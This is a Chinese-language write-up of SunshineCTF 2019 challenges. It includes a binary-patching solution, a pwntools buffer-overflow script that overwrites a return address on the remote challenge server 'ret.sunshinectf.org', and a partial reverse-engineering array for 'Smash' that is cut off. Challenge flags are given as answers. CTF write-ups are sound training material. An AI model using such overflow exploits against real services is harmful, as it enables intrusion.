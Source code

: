 ###  [Patches' Punches](https://2019.sunshinectf.org/challenges#Patches%27%20Punches)

首先查看程序控制流图，根据题目名称直接 path, jnz 改为 jz，运行一下就能看到 flag 了

flag:`sun{To0HotToHanDleTo0C0ldToH0ld!}`

### [Return To Mania](https://2019.sunshinectf.org/challenges#Return%20To%20Mania)

根据题目名称，控制程序流执行 mania 函数

```python
from pwn import *
context.log_level='debug'
target = 0x000065D

#sh = process("./return-to-mania")
sh = remote("ret.sunshinectf.org",4301)
data = sh.recvline()
data = sh.recvline()
print("recivedata:"+data)
welcome_addr = int(data[-11:-1],16)

#gdb.attach(sh)
print(hex(welcome_addr))
print("basic addr:"+hex(welcome_addr-0x000006ED))
#target_addr = target+welcome_addr-0x00006ED
target_addr = target+welcome_addr-0x00006ED
print("target_addr: "+hex(target_addr))
sh.sendline('A' * (22) + p32(target_addr))	
sh.interactive()
```

flag: `sun{0V3rfl0w_rUn_w!Ld_br0th3r}`

### [Smash](https://2019.sunshinectf.org/challenges#Smash)

逆向推一下，有些函数是没用的

```python
arr =[0 for i in range(31)]
arr[1] = 5;
arr[2] = 3;
arr[3] = 6;
arr[4] = 5;
arr[5] = 2;
arr[6] = 5;
arr[7] = 3;
arr[8] = 3;
arr[9] = 3;
arr[10] = 5;
arr[11] = 2;
arr[12] = 4;
arr[13] = 6;
arr[14] = 5;
arr[15] = 5;
arr[16] = 2;
arr[17] = 2;
arr[18] = 5;
arr[19] = 2;
arr[20] = 6;
arr[21] = 5;
arr[22] = 1;
arr[23] = 3;
arr[24] = 4;
```